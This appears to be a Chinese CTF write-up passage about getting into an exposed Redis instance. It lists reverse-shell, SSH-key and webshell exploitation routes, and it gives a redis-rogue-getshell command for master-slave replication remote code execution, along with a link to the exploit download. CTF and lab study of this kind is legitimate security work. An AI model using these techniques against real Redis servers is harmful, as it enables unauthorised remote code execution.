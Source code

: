 于是我把`6379`端口映射到了本地的`10086`，通过本地的`redis`客户端进行了访问

```
redis-cli -h 127.0.0.1 -p 10086
127.0.0.1:10086>
127.0.0.1:10086>keys *
1) "welcome"
127.0.0.1:10086>
```

成功了！！！一阵狂喜过后写了几个键，装了个B，开始尝试利用漏洞。

[>>redis漏洞深度利用](https://blog.csdn.net/qq_27446553/article/details/78096385?depth_1-utm_source=distribute.pc_relevant.none-task&utm_source=distribute.pc_relevant.none-task)

一般来讲，网上的几种方法：

```
(1).利用计划任务执行命令反弹shell

(2).写ssh-keygen公钥然后使用私钥登陆

(3).往web物理路径写webshell
```

但是我们需要注意的是，`(1)`需要`/var/spool/cron/`路径存在并且有权限，`(2)`需要`22端口`开放，`(3)`需要`80端口`开放并且启动了web服务。

显然学长没给弹shell的机会，`/var/spool/cron/`目录根本不存在其他两个端口都没开就不谈了。。。

不过有趣的是，我利用了`redis`的`config set dir /flag`摸清楚了flag在根目录，不过没有找到什么姿势可以让redis直接读取系统文件的。

后来看到了redis的一个主从机制，也没有往那方面想，于是本题宣告白给。

 

wakawaka师傅（最nb的男人）用redis的主从复制漏洞搞了一发，没成功，问学长说是环境问题，给通过了。

 

WP在这里就结束了，redis的主从复制漏洞改日在本地复现之后再更。

更新：

原理可以百度，这里直接本地用Github上面的`redis-rogue-getshell-master`打通，本地的[exp](https://github.com/Anthem-whisper/CTFWEB_sourcecode/raw/main/poc%26tool/redis-rogue-getshell-master.zip)打docker:（本地不需要redis客户端）

```
python3 redis-master.py -r 目标ip -p 目标端口 -L 本机ip -P 本机端口 -f 使用的exp -c 要执行的命令
```

![img](https://raw.githubusercontents.com/Anthem-whisper/imgbed/master/img/20210120164820.png)